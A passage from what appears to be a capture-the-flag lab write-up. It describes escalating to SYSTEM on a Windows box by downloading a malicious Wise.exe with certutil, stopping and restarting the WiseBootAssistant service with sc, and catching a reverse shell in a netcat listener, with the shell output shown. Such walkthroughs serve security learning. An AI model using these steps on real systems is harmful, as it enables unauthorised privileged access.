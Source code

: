 Then we moved to the `Wise` folder and used the `certutil` command to move download our malicious `Wise.exe` file. 

Next, if we had executed the payload as is. We would’ve gotten back another shell as the butler user. Not system(root). So we had to use the `sc stop WiseBootAssistant` command to terminate the initial service, `WiseBootAssistant` that’s running as system. Then use the `sc query WiseBootAssistant` command to check if the service has stopped running.

Finally we start the process again using `sc start WiseBootAssistant`. And this time the service should run as system giving us a privileged shell back in our netcat listener:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.80] 49726
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Thats it!!! 😎
